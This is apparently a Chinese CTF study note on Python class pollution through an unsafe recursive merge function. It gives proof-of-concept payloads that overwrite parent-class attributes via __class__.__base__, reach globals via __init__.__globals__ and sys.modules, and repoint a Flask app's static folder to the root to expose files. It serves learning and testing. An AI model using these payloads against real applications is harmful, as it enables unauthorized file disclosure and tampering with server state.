

# 关键函数

```python
def merge(src, dst):# Recursive merge function
	for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)
```

merge函数会递归调用

如果value是一个字典

则会递归调用，直到value不是字典，会把payload中的json数据赋值到原本的json中

**`注意这里object的属性不可污染`**

```python
def merge(src, dst):  
    # Recursive merge function  
    for k, v in src.items():  
        if hasattr(dst, '__getitem__'):  
            if dst.get(k) and type(v) == dict:  
                merge(v, dst.get(k))  
            else:  
                dst[k] = v  
        elif hasattr(dst, k) and type(v) == dict:  
            merge(v, getattr(dst, k))  
        else:  
            setattr(dst, k, v)  

class ctfer:  
    flag = "flag{fake_flag}"  

class Delete(ctfer):  
    pass  

class Chu0(ctfer):  
    pass  

ctf1 = Delete()  
ctf2 = Chu0()  
evil_playload = {  
    "__class__":  
    {  
        "__base__":  
        {  
            "flag": "flag{really_flag}"  
        }  
    }  
}
print(ctf1.flag)  
print(ctf2.flag)  
merge(evil_playload, ctf1)  
print(ctf1.flag)  
print(ctf2.flag)
```



从结果看出，flag属性被污染了。先获取类，再获取父类，污染了父类的flag属性。

# 无继承关系的污染

## /globals

当类之间没有继承关系，则不能通过 __class__.__base__ 找到父类，并污染父类

此时可以用globals属性

**`globals`** ：`是 Python 函数对象的一个属性，它返回包含函数定义时的全局变量的字典。通过这个属性，你可以访问和修改函数定义所在的模块中的全局变量。`

也就是调用谁的globals属性，就会返回那个函数定义时存在的全局变量的字典

```python
evil_playload = {
    "__init__":{
        "__globals__":{
            "flag" : "flag{really_flag}"
        }

    }
}
```

当不存在继承关系时，就可以通过这样的payload去造成污染

# 污染其他文件中的属性

## sys模块

`sys` 是 Python 的标准库模块之一，属于解释器运行环境的一部分，主要用于：
**与 Python 解释器交互，获取或控制程序的运行状态、环境和内部变量。**
也就是说，sys 模块能让你：
- 访问 Python 解释器的底层信息
- 控制程序的运行行为
- 管理模块搜索路径
- 处理输入输出流
- 获取运行时状态
这使得 sys 模块在安全分析、脚本编写、渗透工具开发、调试与性能测试中非常常用


当题目import了sys时可以这样用
`sys.modules — 已加载模块字典`（下面的文件是`test1.py`）
```python
import test1  
import sys  
def merge(src, dst):  
    # Recursive merge function  
    for k, v in src.items():  
        if hasattr(dst, '__getitem__'):  
            if dst.get(k) and type(v) == dict:  
                merge(v, dst.get(k))  
            else:  
                dst[k] = v  
        elif hasattr(dst, k) and type(v) == dict:  
            merge(v, getattr(dst, k))  
        else:  
            setattr(dst, k, v)  
class Test():  
    def __init__(self):  
        pass  

evil_playload = {  
    "__init__":{  
        "__globals__":{  
            "sys":{  
                "modules":{  
                    "test1":{  
                        "Test1": {  
                            "flag" :"flag{really_flag}"  
                            }  
                        }  
                    }  
                }  
            }  
        }  
    }  
test = Test()  
print(test1.Test1.flag)  
merge(evil_playload,test)  
print(test1.Test1.flag)
```

```python
class Test1:  
    flag = "flag{fake_flag}"
```

## Loader加载器

没怎么学懂

# 静态文件污染

```Python
payload={
    "__init__":{
        "__globals__":{
            "app":{
                "_static_folder":"./"
            }
        }
    }
}
```

将静态文件夹污染到根目录，就可以通过static/...访问静态文件夹